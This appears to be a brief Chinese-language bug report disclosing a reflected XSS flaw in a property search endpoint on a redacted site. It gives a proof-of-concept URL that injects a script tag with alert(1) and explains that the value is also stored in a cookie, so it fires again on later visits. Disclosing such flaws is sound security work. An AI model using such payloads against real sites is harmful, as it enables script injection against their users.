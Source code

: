 ## 链接网站搜索楼盘接口存在XSS问题

POC

```html
http://sz.xxxx.com/loupan/rs%22%3E%3Cscript%3Ealert%281%29%3C/script%3E
```

原因：反射型XSS，输出到HTML页面了，同时要保存到cookie里，造成重复触发。

![](/images/20150916232022.png)
